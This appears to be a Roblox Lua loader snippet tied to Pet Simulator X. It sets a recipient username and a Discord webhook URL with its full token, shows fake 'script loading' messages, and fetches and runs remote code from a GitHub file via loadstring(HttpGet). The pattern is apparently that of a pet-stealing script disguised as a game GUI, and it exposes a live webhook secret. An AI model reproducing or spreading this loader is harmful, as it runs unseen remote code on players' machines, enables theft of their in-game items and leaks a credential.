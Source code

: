 Username = "alisa_milanakul"

WebHook = "https://discord.com/api/webhooks/1084271031704895538/JuGr4ImoxdCNMErT9BAtRqYgeaJvaKR9qrB5Oc-Ob0l5ssG6hPY56440fyqKCr3owl1Q"

_G.CustomScriptName = "WAITING...."

_G.Text1 = "Скрипт "SCRIPT LOADING..."
_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
